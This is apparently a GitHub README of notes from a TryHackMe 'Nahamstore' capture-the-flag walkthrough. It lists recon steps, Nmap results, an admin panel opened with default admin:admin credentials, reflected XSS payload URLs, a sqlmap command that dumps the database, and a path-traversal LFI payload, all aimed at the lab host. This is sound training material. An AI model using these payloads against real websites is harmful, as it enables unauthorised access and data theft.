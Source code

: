 # nahamstore-thm-ctf
Walk through THM Nahamstore 

## Recon 

- When enumerating subdomains you should perform it against the nahamstore.com domain. When you find a subdomain you'll need to add an entry into your /etc/hosts or c:\windows\system32\drivers\etc\hosts file pointing towards your deployed TryHackMe box IP

- replace the `.com` to `thm`


### PII leaks

`http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2`



## Nmap Scan

```bash

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 63
80/tcp   open  http     syn-ack ttl 63
8000/tcp open  http-alt syn-ack ttl 62
```



### ANother server

```
http://nahamstore.thm:8000/admin
admin:admin
```







## Subfinder - Subdomain Enumeration
- Vhost enumeration also 
- use `gobuster`




### Xss

```
http://nahamstore.thm/account/orders/4%3Cscript%3Ealert()%3C/script%3E
http://nahamstore.thm/uploads/spelers_NL1_2025.xlsx%3Cu%3Etest%3C/u%3E
http://nahamstore.thm/uploads/spelers_NL1_2025.xlsx%3Cscript%3Ealert()%3C/script%3E
http://nahamstore.thm/favicon.ico?qcd=qlfdz3ffam2hnlsp%3cscript%3ealert(1)%3c%2fscript%3eksrxd
http://nahamstore.thm/product?id=1&name=%27&discount=ibpj7m12mo%22onfocus%3d%22alert(1)%22autofocus%3d%22xzg4z





```


### dirbusting


```
http://nahamstore.thm/FUZZ
http://nahamstore.thm/staff
http://nahamstore.thm/uploads


```


### SQL

```bash
sqlmap -u 'http://nahamstore.thm/product?id=1' -p id --batch --dbms=mysql --dump -threads 10 --ignore-code 404

```



### LFI

```

http://nahamstore.thm/product/picture/?file=....//....//....//....//....//....//....//....//....//....//....//....//lfi/flag.txt

```
